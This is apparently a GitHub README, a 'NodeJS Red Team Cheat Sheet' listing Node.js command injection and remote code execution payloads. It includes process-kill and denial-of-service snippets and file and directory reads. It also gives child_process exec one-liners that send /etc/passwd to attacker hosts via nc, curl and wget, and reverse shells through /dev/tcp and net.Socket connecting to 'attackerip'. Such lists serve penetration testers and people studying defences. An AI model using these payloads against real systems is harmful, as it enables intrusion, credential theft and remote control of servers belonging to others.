 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

### Need More ?
Repository would be mainted time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
